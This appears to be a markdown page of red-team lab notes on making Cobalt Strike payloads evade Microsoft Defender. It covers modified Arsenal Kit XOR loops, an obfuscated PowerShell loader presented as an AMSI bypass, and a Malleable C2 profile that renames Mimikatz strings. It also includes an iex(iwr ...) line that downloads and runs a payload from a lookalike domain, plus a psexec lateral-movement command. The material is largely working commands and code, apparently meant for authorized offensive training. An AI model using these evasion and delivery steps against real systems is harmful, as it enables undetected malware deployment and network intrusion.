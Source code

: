 
### Artifacts

Open the artifacts folder (`arsenal-kit\kits\artifact`) within Visual Studio Code and open up `src-common/patch.c`

On line ~45 modify the for loop. **This is for the svc exe payloads.**
```c
x = length;
while(x--) {
  *((char *)buffer + x) = *((char *)buffer + x) ^ key[x % 8];
}
```

On line ~116 modify the other for loop. **This is for the normal exe payloads.**
```c
int x = length;
while(x--) {
  *((char *)ptr + x) = *((char *)buffer + x) ^ key[x % 8];
}
```

Save the changes (**File > Save**) and close the folder (**File > Close Folder**).

Run **build.sh** to build the new artifacts.
```bash
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact

./build.sh mailslot VirtualAlloc 351363 0 false false none /mnt/c/Tools/cobaltstrike/custom-artifacts
```

>The stage size tends to vary between CS releases as features get added or removed from Beacon.  Always run build.sh without arguments first to see what the minimum stage sizes are.

Import the `artifact.cna` file into the Cobalt Strike script manager - `C:\Tools\cobaltstrike\custom-artifacts\mailslot`

---

### Resources

Open the resource folder in the arsenal-kit and build new resources
```bash
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource

./build.sh /mnt/c/Tools/cobaltstrike/custom-resources
```

Open up the custom-resources folder in VS code

> Edit **template.x64.ps1** with the following

Rename **ALL**`func_get_proc_address` on line **3** to (Use Edit > Replace): 
```powershell
get_proc_address
```

Rename **ALL** `func_get_delegate_type` on line **10** to (Use Edit > Replace):
```powershell
get_delegate_type
```

Replace line **32** with:
```powershell
$var_wpm = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((get_proc_address kernel32.dll WriteProcessMemory), (get_delegate_type @([IntPtr], [IntPtr], [Byte[]], [UInt32], [IntPtr]) ([Bool])))
$ok = $var_wpm.Invoke([IntPtr]::New(-1), $var_buffer, $v_code, $v_code.Count, [IntPtr]::Zero)
```

> Now obfuscate **compress.ps1** 

Use Invoke-Obfuscate to create a unique obfuscated version of the script. Choose anyone except for string obfuscation because of the `%%DATA%%`

```powershell
ipmo C:\Tools\Invoke-Obfuscation\Invoke-Obfuscation.psd1
Invoke-Obfuscation

Invoke-Obfuscation> SET SCRIPTBLOCK [compress.ps1 contents]
```

Or use this plus the AMSI Bypass:
```powershell
SET-itEm  VarIABLe:WyizE ([tyPe]('conVE'+'Rt') ) ;  seT-variAbLe  0eXs  (  [tYpe]('iO.'+'COmp'+'Re'+'S'+'SiON.C'+'oM'+'P'+'ResSIonM'+'oDE')) ; ${s}=nEW-o`Bj`eCt IO.`MemO`Ry`St`REAM(, (VAriABle wYIze -val  )::"FR`omB`AsE64s`TriNG"("%%DATA%%"));i`EX (ne`w-`o`BJECT i`o.sTr`EAmRe`ADEr(NEw-`O`BJe`CT IO.CO`mPrESSi`oN.`gzI`pS`Tream(${s}, ( vAriable  0ExS).vALUE::"Dec`om`Press")))."RE`AdT`OEnd"();
```

Import the `resources.cna` file into the Cobalt Strike script manager - `C:\Tools\cobaltstrike\custom-resources\`

---

### Malleable C2

SSH into the Cobalt Strike instance and open up the profiles folder
```bash
cd /opt/cobaltstrike/profiles
```

Edit **default.profile** and add the following stage block:
```bash
stage {
   set userwx "false";
   set module_x64 "Hydrogen.dll";  # use a different module if you like
   set copy_pe_header "false";
}
```

Add the following post-ex block:
```bash
post-ex {
  set amsi_disable "true";
  set spawnto_x64 "%windir%\\sysnative\\svchost.exe";
  set obfuscate "true";
  set cleanup "true";

  set pipename "dotnet-diagnostic-#####, ########-####-####-####-############";

  transform-x64 {
      strrep "ReflectiveLoader" "NetlogonMain";
      strrepex "ExecuteAssembly" "Invoke_3 on EntryPoint failed." "Assembly threw an exception";
      strrepex "PowerPick" "PowerShellRunner" "PowerShellEngine";

      # Mimikatz evasion
      strrep "\\\\.\\pipe\\mimikatz" "\\\\.\\pipe\\rpcnet";
      strrep "powershell_reflective_mimikatz" "ps_shell_module";
      strrep "mimikatz(powershell)" "opseckat(pwsh)";
      strrep "mimikatz.log" "diagdata.log";
      strrep "mimikatz_x64.compressed" "binmod64.pack";
      strrep "mimikatz_dpapi_cache.ndr" "vault_cache.ndr";
      strrepex "ERROR kuhl_m_dpapi_chrome" "INFO dpapi_module";
      strrepex "ERROR kuhl_m_lsadump_getUsersAndSamKey" "WARN lsa_getusers_samkey";
      strrepex "ERROR kuhl_m_lsadump_getComputerAndSyskey" "INFO lsa_getcomputer_syskey";
      strrepex "ERROR kuhl_m_lsadump_lsa_getHandle" "WARN lsa_gethandle";
      strrepex "ERROR kuhl_m_lsadump_enumdomains_users" "WARN enum_domains_users";
      strrep "ERROR mimikatz_doLocal" "INFO module_doLocal";
  }
}


```

Add the following process-inject block:
```bash
process-inject {
  execute {
      NtQueueApcThread-s;
      NtQueueApcThread;
      SetThreadContext;
      RtlCreateUserThread;
      CreateThread;
  }
}
```

Save changes and restart the Team Server
```powershell
sudo /usr/bin/docker restart cobaltstrike-cs-1
```

> If the container fails to restart properly use `sudo /usr/bin/docker logs cobaltstrike-cs-1` to see the profile errors.

---

### Test

Build new payloads:
- Go to **Payloads > Windows Stageless Generate All Payloads**

Test stageless payload against ThreatCheck
```powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\artifact64big.exe
```

Test PowerShell payload against ThreatCheck
```powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\template.x64.ps1 -e amsi
```


Host a 64-bit PowerShell payload.
1. Go to **Site Management > Host File**
2. File: _C:\Payloads\http_x64.ps1_
3. Local URI: /test
4. Local Host: www.bleepincomputer.com

Verify that Defender is enabled and execute up on test host
```powershell
(Get-MpPreference).DisableRealtimeMonitoring

iex(iwr "http://www.bleepincomputer.com/test" -useb)
```

Verify Defender is on on remote host
```powershell
remote-exec winrm lon-ws-1 (Get-MpPreference).DisableRealtimeMonitoring
```

Change `spawnto` for the service payload
```powershell
ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
```

Now lateral movement can be used with the service payload
```powershell
jump psexec64 lon-ws-1 smb
```